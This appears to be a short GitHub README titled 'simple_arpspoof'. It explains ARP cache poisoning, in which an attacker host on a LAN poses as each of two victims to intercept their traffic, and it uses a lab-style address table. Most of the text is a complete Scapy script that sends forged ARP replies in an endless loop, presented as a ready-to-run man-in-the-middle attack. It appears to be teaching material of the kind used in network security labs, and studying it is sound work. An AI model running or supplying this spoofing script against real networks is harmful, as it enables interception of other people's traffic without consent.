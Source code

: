 # simple_arpspoof

## How does it work

Suppose there are three hosts, A, B and M on the same LAN.

M wants to intercept the packet between A and B. Then M must convince A that he is B, so all the packets from A to B would be forwarded to M. At the same time, M must convince B that he is A, so all the traffic from B to A would be forwarded to M first.

After this, the route from A to B becomes A -> M -> B, and the route from B to A becomes B -> M -> A. In this way, M intecepts all the traffic between A and B.

In ARP, we use opcode 2 to represent an ARP reply. The semantic of ARP reply is to tell the request host what's the corresponding MAC address of the request IP.

For example, we have the following configuration:

| Host | IP         | MAC               |
| ---- | ---------- | ----------------- |
| A    | 10.9.0.5   | 02:42:0a:09:00:05 |
| B    | 10.9.0.6   | 02:42:0a:09:00:06 |
| M    | 10.9.0.105 | 02:42:0a:09:00:69 |

M convinces A that B(10.9.0.6) is at 02:42:0a:09:00:69(M), convinces B that A(10.9.0.5) is at 02:42:0a:09:00:69(M).

## python code

```python
import scapy.all as scapy
import time

packet_1 = scapy.ARP(op=2, pdst='10.9.0.6',
                     hwdst='02:42:0a:09:00:06', psrc='10.9.0.5')
packet_2 = scapy.ARP(op=2, pdst='10.9.0.5',
                     hwdst='02:42:0a:09:00:05', psrc='10.9.0.6')


def start_spoof():
    while True:
        scapy.send(packet_1)
        scapy.send(packet_2)
        time.sleep(1)


if __name__ == '__main__':
    start_spoof()

```

Run this code at M, then we are done.
